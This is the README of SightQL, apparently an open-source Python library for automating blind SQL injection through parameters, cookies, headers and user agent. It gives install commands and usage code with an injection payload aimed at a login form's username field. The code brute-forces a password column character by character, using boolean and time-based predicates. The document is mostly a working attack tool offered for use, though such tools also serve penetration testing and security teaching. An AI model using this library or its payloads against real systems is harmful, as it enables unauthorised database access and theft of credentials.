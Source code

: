 # SightQL

## Description

SightQL is a Python library which allows to exploit an SQL Injection using multiple entrypoints such as classical GET/POST parameters, cookies, header and user agent.

## Installation

```
git clone https://github.com/Ruulian/SightQL.git
cd SightQL
python3 setup.py install
```

## Usage

```py
from sightql import SightQL

def predicate(r) -> bool:
    """
    r : requests.models.Response

    The predicates must take a "requests" response and return a bool
    """
    return "Welcome back" in r.text

s = SightQL(
    target="http://localhost",
    params={
        "username":"admin' and {payload} -- -",
        "password":"foo"
    },
    column_to_exfil="password",
    predicate=predicate
)

s.restore()

```

The library will replace all the ``{payload}`` strings in your params/cookies keys and bruteforce all the characters.

### Predicate examples

Blind SQL Injection in login form:
```py
def predicate(r):
    return "Welcome back" in r.text
```

Blind SQL Injection Time Based:
```py
SLEEP_SECONDS = 5

def predicate(r):
    return r.elapsed.seconds > SLEEP_SECONDS
```

## TODO

- Add on PyPI